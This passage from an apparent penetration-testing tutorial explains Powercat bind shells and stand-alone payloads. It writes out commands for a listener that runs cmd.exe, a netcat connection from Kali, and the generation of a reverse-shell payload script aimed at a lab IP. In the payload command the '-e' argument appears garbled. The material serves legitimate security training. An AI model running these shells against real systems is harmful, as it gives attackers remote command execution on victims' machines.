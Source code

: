 ### **3.7. Powercat Bind Shells**

The Kali Linux machine will connect to the Windows machine and will be able to execute commands on the Windows machine.

Set up a listener on port 1308 on the Windows machine with an executed command

```powershell
powercat -l -p 1308 -e cmd.exe
```

- `-l`: listener mode

From the Kali Linux machine, we will use netcat to connect to the Windows machine

```bash
nc -nv 192.168.190.10 1308
```

![](./img/Chapter4/38.png)

![](./img/Chapter4/39.png)

### **3.8. Powercat Stand-Alone Payloads**

Use `-g` option to generate a stand-alone payload

```powershell
powercat -c 192.168.190.133 -p 1308 -e 1308 -g > reverseshell.ps1
```
